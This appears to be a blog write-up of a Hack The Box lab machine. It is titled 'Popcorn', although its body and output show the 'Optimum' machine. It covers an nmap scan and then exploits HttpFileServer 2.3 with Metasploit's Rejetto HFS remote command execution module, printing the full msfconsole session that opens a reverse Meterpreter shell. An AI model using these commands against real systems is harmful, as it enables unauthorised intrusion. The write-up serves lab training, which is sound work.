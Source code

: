 ```yaml
---
layout: post
title: Popcorn(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.8
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:400px;width:800px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.8

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-19 15:14 EST
<br>Nmap scan report for 10.10.10.8
<br>Host is up (0.15s latency).
<br>Not shown: 999 filtered ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">HttpFileServer httpd 2.3</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone
<br>Running (JUST GUESSING): Microsoft Windows 2012|7|Phone|2008|8.1|Vista (91%)
<br>OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_7::-:professional cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
<br>Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (90%), Microsoft Windows 7 Professional (87%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows 7 Professional or Windows 8 (85%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (85%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 29.52 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
<br>**Web**:-
![web](https://teckk2.github.io/assets/images/Optimum/1-Optimum.png)
<br>The target machine is running HttpFileserver 2.3 for which there is a public exploit available.
<br>**Exploit**:- [Rejetto HttpFileServer Remote Command Execution](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec)
<br>**Vulnerabilty Description:-**:- Rejetto HttpFileServer (HFS) is vulnerable to remote command execution attack due to a poor regex in the file ParserLib.pas. This module exploits the HFS scripting commands by using '%00' to bypass the filtering. This module has been tested successfully on HFS 2.3b over Windows XP SP3, Windows 7 SP1 and Windows 8.

<br>**POC**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>msf > use exploit/windows/http/rejetto_hfs_exec
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set RHOST 10.10.10.8
<br>RHOST => 10.10.10.8
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set payload windows/x64\reterpreter/reverse_tcp
<br>payload => windows/x64/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set LHOST 10.10.*.*
<br>LHOST => 10.10.*.*
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">rejetto_hfs_exec</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.10.*.*:4455 
<br><font color="RoyalBlue">[*]</font> Using URL: http://0.0.0.0:800/aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Local IP: http://192.168.140.136:800/aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Server started.
<br><font color="RoyalBlue">[*]</font> Sending a malicious request to /
<br><font color="RoyalBlue">[*]</font> Payload request received: /aPrzG0R5eKWK
<br><font color="RoyalBlue">[*]</font> Sending stage (1189423 bytes) to 10.10.10.8
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.10.*.*:4455 -> 10.10.10.8:49162) at 2017-12-19 16:18:59 -0500
<br><font color="ffff00">[!]</font> Tried to delete %TEMP%\mbSzL.vbs, unknown result
<br><font color="RoyalBlue">[*]</font> Server stopped.</p>

<p>meterpreter > getuid
<br>Server username: <font color="53E100">OPTIMUM\kostas</font>
<br>meterpreter > sysinfo
<br>Computer        : OPTIMUM
<br>OS              : Windows 2012 R2 (Build 9600).
<br>Architecture    : x64
<br>System Language : el_GR
<br>Domain          : HTB
<br>Logged On Users : 1
<br>Meterpreter     : x64/windows
<br>meterpreter ></p> 

</div>
</font>
<br>Now we have the user _Kostas_ access, for privilege escalation we can run post exploit suggester in **MSF**.
